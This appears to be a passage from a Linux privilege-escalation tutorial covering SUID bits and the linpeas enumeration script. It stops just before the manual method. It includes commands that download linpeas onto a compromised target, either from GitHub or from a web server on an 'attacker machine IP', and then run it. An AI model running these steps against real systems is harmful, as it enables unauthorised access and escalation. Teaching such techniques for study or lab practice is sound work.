 You can see that there is an `s` where an `x` should be if SUID was disable on
the su command.

### Linpeas

Linpeas is very good at finding any privilege escalation method on a linux.

> Note: Don't think you are safe on windows computer too soon, because there
> is also Winpeas which is the linpeas of windows.

The first thing to do to get linpeas on the computer you are attacking.
You can download 

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20240223-ab2bb023/linpeas.sh
```

New problem, It seems that we can't write to most directory.

But we can write to the `/tmp` directory. Now we can download the linpeas.

To run Linpeas you can just do the following:

```bash
./linpeas.sh
```

#### If you don't have internet on the when you are on the reverse shell.

If the Machine you are attacking doesn't have internet then you wil have to
get linpeas on your attacker machine and then host a web server to transfer the
file over. 

```bash
python3 -m http.server
```

> Note: You have to be in the current directory of Linpeas to see the file.

Now on the machine that you want to use Linpeas, You have to now download the
file from the web server you are hosting.

```bash
wget <OUR Attacker machine IP>/linpeas.sh
```  

New problem, It seems that we can't write to most directory.

But we can write to the `/tmp` directory. Now we can download the linpeas.

Now you can run linpeas with the following:

```bash
./linpeas.sh
```

### Manual Way

The manual way is going to be a lot more work but that is ok.
We can use the following command to check if there is SUID set on a program.

